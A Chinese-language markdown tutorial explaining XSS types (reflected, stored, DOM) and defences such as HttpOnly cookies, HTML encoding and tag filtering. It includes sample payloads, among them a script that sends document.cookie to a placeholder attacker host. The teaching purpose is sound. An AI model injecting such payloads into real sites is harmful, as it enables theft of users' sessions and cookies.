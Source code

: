 ## XSS原理与防御
Cross Site Scripting(跨站脚本攻击)
### 1.XSS发生原因
* 1.将恶意的js代码插入到页面中
* 2.html实体的存在是导致XSS漏洞的主要原因之一
### 2.XSS类型
* 1.反射型xss攻击（非持久性跨站点脚本攻击）

    示例（接收者接收消息显示的时候将会弹出警告窗口）
    ```js
    http://www.test.com/message.php?send=<script>alert(‘foolish!’)</script>！
    ```
* 2.存贮型xss攻击
    示例:
    攻击者在表单中填入恶意的js代码，将数据提交到服务器，存储到数据库中，其他用户去除数据展示时，执行攻击性代码
* 3.DOM-XSS
    示例1(盗取cookie):
    ```js
    // 恶意代码
    <script type=text/javascript>window.location = "http://黑客IP:8360/getcookie?cookie="+document.cookie</script>
    ```
    示例2(改变dom):
    ```js
    // 恶意代码
    <script>
        var a = document.createElement('a');
        a.href = 'http://www.linuxtest.com/test2.php';
        a.innerText = '点我呀'
        document.body.appendChild('afterbegin', a);
    </script>
    ```
### 3.XSS防御
* 1.将重要的cookie标识为http only,这样Js中的document.cookie语句就不能获取到cookie了
* 2.对数据进行Html Encode处理（转义）
* 3.黑名单，白名单（过滤）
    * 将<script> onerror这种危险标签纳入黑名单，过滤掉
    * 设置标签白名单，不在白名单内的，一律过滤掉